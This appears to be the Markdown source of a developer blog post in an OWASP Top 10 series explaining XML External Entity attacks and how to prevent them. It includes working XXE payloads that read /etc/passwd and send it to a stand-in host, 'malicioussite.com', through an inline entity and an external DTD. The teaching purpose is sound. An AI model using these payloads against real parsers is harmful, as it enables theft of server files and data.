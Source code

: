 ```yaml
---
layout: post
title: OWASP Top 10 - 4. XML External Entities (XXE)
tags: tech
description: 
thumbnail: /4-xml-external-entities/thumbnail.jpg
thumbnail-creator-link: https://unsplash.com/@florianolv
thumbnail-creator: Florian Olivo
thumbnail-site: https://unsplash.com/
thumbnail-site-name: Unsplash
image-alt: Picture of SVG and HTML code
date: 2020-12-11
---
```


Anywhere you use XML *(eXtensible Markup Language)*, you have the potential for XXE *(XML eXternal Entity)* vulnerabilities.

Let's talk about where XML could exist in your app, what XXE is and why it's a risk for your application, and possible ways to prevent it.

<!--more-->

## Where XML Is That You Might Not Realize
Before studying XXE attacks, I didn't give a second thought to XML. I would venture a guess to say that most web developers don't think about it much.

But XML is in various parts of our application that we might not realize.

It's commonly used in API endpoints. SOAP uses it exclusively, but modern APIs using JSON could also accept XML as well.

**Did you know that .pdf, .docx, .xslx, and .svg files all contain XML?** If you accept uploads of any of these files in your application, you could be susceptible to an XXE attack.

Once you start looking, you'll find XML in places you didn't expect. **And anywhere there's XML, there's the potential for XXE**.

So what is XXE and why should we, as web developers, care about it?

---

## What Is XXE?
By now you know that XXE stands for XML eXternal Entities, but what is an entity?

In an XML document, **an entity is kind of like a variable**. You can declare a custom entity within the XML document and output it in an element, like this:
``` xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root [
	<!ELEMENT item ANY>
	<!ENTITY hello "Hello World">
]>
<item>&hello;</item>
```
Let's take this line by line.

1. The first line declares this an xml document, the version we're using, and how it's encoded.
2. The second line is called the DTD (Document Type Definition). This tells the parser what well-formed XML looks like for this document. In this line, we're also saying the root element of the document is 'root'.
3. The third line, while still in the DTD, is declaring one element, named 'item', that allows any combination of parsable data.
4. The fourth line, still in the DTD, is declaring one entity, named 'hello', that contains the text "Hello World".
5. The fifth line close the DTD.
6. The last line uses the `<item>` element and contains the `&hello;` entity.

The important part to understand here is that I've declared an entity. Anywhere it's displayed, the text "Hello World" will be output.

This functionality is what can be abused in XXE attacks.

For example, an attacker **could use this functionality to display the contents of local text files on the server**.

Let's pretend the XML file above is sent from a browser, to a server, over HTTP. It's unencrypted, so a MITM *(Monster-In-The-Middle)* could modify it to look something like this:
``` xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root [
	<!ELEMENT item ANY>
	<!ENTITY hello SYSTEM "file:///etc/passwd">
]>
<item>&hello;</item>
```
Only the 4th line has changed, but now wherever the `&hello;` entity is displayed *(such as on a page, in an error, or in a log)*, **it will now show the contents of /etc/passwd**. Instead of passing in text, an attacker has added the SYSTEM keyword telling the XML parser to read the contents of `/etc/passwd` on this system and output it to the `&hello;` entity.

As you might guess, this is not a good situation.

You might be thinking, what if we don't display that entity ANYWHERE. An attacker can't get the contents of `&hello;` so we're safe.

What if I told you **an attacker could modify the XML to send the contents of `&hello;` *(everything in `/etc/passwd`)* to a server they control**?

To do that, they could modify the XML to look something like this:
``` xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root [
	<!ELEMENT item ANY>
	<!ENTITY % hello SYSTEM "file:///etc/passwd">
	<!ENTITY sendtomysite SYSTEM "http://malicioussite.com/?%hello;">
]>
<item>&sendtomysite;</item>
```
Here, the attacker has modified the 4th line to include a % character before 'hello'. This tells the library that the entity will now be used within the DTD *(that's why on the 5th line you see `%hello;` instead of `&hello;`)*.

The 5th line has a new entity - **an external entity**. This line tells the parser that when `&sendtomysite;` is called, connect to `http://malicioussite.com` and attach the `%hello;` entity.

This means the `<item>` element doesn't have to be displayed anywhere. As long as it's processed, **the contents of `/etc/passwd` will be sent to `malicioussite.com` *(if external entities are enabled)***.

Yeah, that can suck. But maybe you only allow specifically formatted XML in your application or you block access to local files. If an attacker tried to inject into elements or directly read local server files, it wouldn't work.

Well, an attacker could try a different tactic - using **an external DTD**.

They'd need 2 files - the existing XML file *(like one inside a PDF or Word Doc)* and a second one controlled by the attacker.

The first file will be injected with the following code:
``` xml
<!DOCTYPE root [
	<!ENTITY % file SYSTEM "file:///etc/passwd">
	<!ENTITY % dtd SYSTEM "http://malicioussite.com/ext.dtd">
	%dtd;
	%send;
]>
```
The second file, ext.dtd, lives on the attacker's server. It looks something like this:
``` xml
<!ENTITY send SYSTEM "http://malicioussite.com/?%file;">
```
Let's step through what will happen here.
1. First, everything is located within the DTD *(thus all entities are prefaced with % characters)*.
2. `%dtd;` will be parsed first. It will retrieve the ext.dtd file from `malicioussite.com`.
3. This inserts the `%send;` entity into the DTD (making it look similar to the previous example).
4. Next, the `%send;` entity gets parsed. This causes the %file to get retrieved *(containing the contents of `/etc/passwd`)* and sent along to `malicioussite.com`. 

This example isn't perfect. There's a decent chance an attacker would need to base64 encode the `/etc/passwd` first, but the idea is the same. **They're creating external entities and using them to exfiltrate server data**.

### Further Reading:
- [More Examples of XXE attacks](https://cheatsheetseries.owasp.org/cheatsheets/XML_Security_Cheat_Sheet.html#xml-entity-expansion){:target="_blank"}

---

## XXE Risks
XXE can be difficult to understand if you don't understand how XML works and how your library will parse it by default. Essentially, **XXE attacks abuse that default behavior to include external entities *(controlled by the attacker)* and gain access to server-side resources**.

At a minimum, **this access allows an attacker to view sensitive server information**. At its worst, **it could be used to eventually launch RCE *(Remote Code Execution)* attacks**, which is very, very bad.

### Further Reading:
- [Learn More About XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing){:target="_blank"}
- [Testing for XML Injection *(can be used as an entry point to inject XXE)*](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection){:target="_blank"}

---

## Possible Ways To Help Prevent XXE
If you parse XML files in any way, and you aren't 100% certain about how your library does it, there is the potential for XXE vulnerabilities.

OWASP has [some good tips for prevention](https://owasp.org/www-project-top-ten/2017/A4_2017-XML_External_Entities_(XXE)){:target="_blank"}:
- Understand your XML library.
	- If needed, disable XML external entity and DTD processing.
	- Use the lastest XML libraries and keep them patched.
- Understand your endpoints.
	- Many APIs that use JSON will also allow XML. Since it's not expected, it's not always secured by default. Disable any alternative data formats.
- Use SAST tools to help find XXE vulnerabilities.

Like everything in security, this is a complex topic. **It can be difficult to fully understand and prevent it**.

Do your best, keep researching, and learn more to understand and help protect your application against this vulnerability.

### Further Reading
- [How to Prevent XXE](https://owasp.org/www-project-top-ten/2017/A4_2017-XML_External_Entities_(XXE)){:target="_blank"}
- [OWASP's XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html){:target="_blank"}